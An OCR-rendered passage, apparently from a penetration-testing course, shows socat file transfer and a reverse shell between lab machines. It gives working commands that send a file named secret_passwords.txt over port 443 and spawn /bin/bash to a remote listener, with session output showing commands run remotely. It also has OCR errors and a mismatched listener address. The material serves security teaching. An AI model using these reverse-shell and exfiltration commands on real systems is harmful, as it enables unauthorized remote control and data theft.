```
c:\socat>socat - TCP4:192.168.0.223:443
```

#### Socat Transfer Files

On Alice's side, we will share the file on port 443. In this example, the TCP4-LISTEN option specifies
an IPv4 listener, fork creates a child process once a connection is made to the listener, which
allows multiple connections, and file: specifies the name of a file to be transferred:

```
tail /usr/share/wordlists/nmap.lst > secret_passwords.txt 
```

````
kali@ka1i:~$ sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
````

```
c:\socat>socat TCP4:192.168.0.223:443 file:received_secret_passwords.txt,create
```

#### Socat Reverse Shells

Let's take a look at a reverse shell using socat. First, Bob will start a listener on port 443. To do this,
he will supply the -d -d option to increase verbosity (showing fatal, error, warning, and notice
messages), TCP4-LISTEN:443 to create an IPv4 listener on port 443, and STDOUT to connect
standard output (STDOUT) to the TCP socket:

```
c:\socat>socat -d -d TCP4-LISTEN:443 STDOUT
2020/12/02 12:34:32 socat[3324] N listening on AF=2 0.0.0.0:443
```

Next, Alice wi ll use socat' s EXEC option (similar to the Net cat -e option), which w ill execute the
given program once a remote connection is established. In this case, Alice wi ll send a /bin/bash
reverse shell (with EXEC:/bin/bash) to Bob's listening socket on 10.11.0.22:443:

```
kali@ka1i:~$ socat TCP4:192.168.0.198:443 EXEC:/bin/bash
```

Once connected, Bob ca n enter commands from his socat session, which will execute on Alice's
machine .

```
2020/12/02 12:37:54 socat[6288] N accepting connection from AF=2 192.168.0.223:45662 on AF=2 192.168.0.198:443
2020/12/02 12:37:54 socat[6288] N using stdout for reading and writing
2020/12/02 12:37:54 socat[6288] N starting data transfer loop with FDs [6,6] and [1,1]
whoami
kali
id
uid=1000(kali) gid=1000(kali) 
```

